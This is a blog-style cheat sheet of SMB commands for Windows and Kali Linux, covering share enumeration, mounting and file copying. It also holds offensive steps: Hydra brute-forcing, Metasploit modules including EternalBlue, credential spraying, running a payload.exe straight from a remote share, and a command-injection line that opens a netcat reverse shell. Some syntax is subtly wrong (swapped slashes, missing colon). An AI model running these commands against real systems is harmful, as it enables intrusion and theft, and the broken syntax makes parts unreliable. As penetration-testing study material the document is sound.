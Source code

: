```yaml
---
layout: post
title: 'Working With SMB'
date: '2022-05-21'
description: 'A look at interacting with SMB Shares using the Windows Command line and using various tools available within Kali Linux.'
coverimage: Working_With_SMB.jpg
tags: hydra, mount, nmblookup
published: true
posttype: article
categories: article
---
```

## Working with SMB

### Windows

Windows commands for working with our share

```
net use \\10.1.1.99\IPC$ /user:evilsmb
net view 10.1.1.99
dir \\10.1.1.99\evilshare
copy \\10.1.1.99\evilshare\29.jpg mypic.jpg
```

Anonymous shares can be viewed without authenticating to the IPC$ share.

```
net view 10.1.1.99
```

Mount a share

```
net use Y \\10.1.1.99\myshare  /user:eviltest
cd /d Y:\
dir
```

Executing files from SMB. Because of the way Windows treats UNC paths, it’s possible to just execute our binary directly from the SMB share without even needing to copy it over first. Just run the executable as if it were already local and the payload will fire:

```
C:\Users\evilsaint\Desktop> \\10.1.1.254\sharefolder\payload.exe
```

### Linux

Listing SMB shares with username and password
```
smbclient -L 10.1.1.99 -U username%password
```

Listing SMB Shares with anonymous connection
```
smbclient -N -L 10.1.1.99
```

Connecting to SMB Share with username and password
```
smbclient //10.1.1.99/myshare -U eviltest%evilpass
```

Connecting to SMB Share without username and password
```
smbclient //10.1.1.99/myshare
```

# SMB

### SMB Shares

List Shares of computers in Domain
```
Get-NetComputer -DomainController 172.20.50.254 | Get-NetShare
```

# Bruteforcing SMB with Hydra

Comma seperated username and passwords
```
hydra -v -V -C user-pass.txt 10.1.18.2 smb
```

not using comma separated
```
hydra -L users.txt -e ns 172.24.2.97 smb
```

# SMB

## NetBIOS

Find all hosts responding to netbios, the `q` supresses the headers
```
nbtscan -q 10.11.1.0\24
```

Look at more detail for a single host either by IP or hostname
```
nmblookup -A 10.50.1.254
nmblookup -S DC01
```

## Crackmapexec

```
crackmapexec smb 10.50.1.0\24
```

## NMAP

Run all Nmap SMB Checks

```
nmap -sS -p 445 -n --open --script=smb-vuln* <ip>
```

Exploit vulnerabilities with metasploit

| Vulnerability | Metasploit Module |
| --- | --- |
| smb-vuln-ms06-025  | exploit06_025_rasmans_reg |
| smb-vuln-ms07-029  | exploit07_029_msdns_zonename |
| smb-vuln-ms08-067  | exploit08_067_netapi |
| smb-vuln-cve2009-3103  | exploit09_050_smb2_negotiate_func_index |
| smb-vuln-ms17-010 | exploit17_010_eternalblue |

## SMB login (spray credentials)

```
msf > use auxiliary/scanner/smb/smb_login
show options
verbose off
set password to the obtained local admin password
remove user as pass
```

## Enum4linux

Enumerate SMB

```
enum4linux -a -u Administrator -p Passw0rd! 10.50.1.15
```

## SMB Client

Listing SMB shares with username and password
```
smbclient -L 10.1.1.99 -U username%password
```

Listing SMB Shares with anonymous connection
```
smbclient -N -L 10.1.1.99
```

Connecting to SMB Share with username and password
```
smbclient //10.1.1.99/myshare -U eviltest%evilpass
```

Connecting to SMB Share without username and password
```
smbclient //10.1.1.99/myshare
```

We can use smbclient over proxychains
```
proxychains smbclient '//192.168.1.230/myshare' -U 'MARVEL.LAB\Administrator%password123!'
```

We can tar up files or folders with smbclient
```
smbclient //10.129.121.21/guest -Tc test.tar secret.txt
smbclient //10.129.121.21/guest -Tc test.tar /tmp
```

## Mount Share

Mount SMB Share
```
mount -t  \\X.X.X.X\c$ \mnt\remote\ -o username=user,password=pass,rw
```

To get a shell back from an SMB share.
```
logon "\=`nc 10.11.0.233 443 -e \bin\bash`"
```

## SMBMap

Not very stealthy but can execute a command
```
python /usr/share/smbmap/smbmap.py -H 127.0.0.1 -u user -p pass -x 'net group "domain admins" \domain'
```

## SMBTree

SMB Tree can map out all smb shares in the neighbourhood.
```
smbtree
```
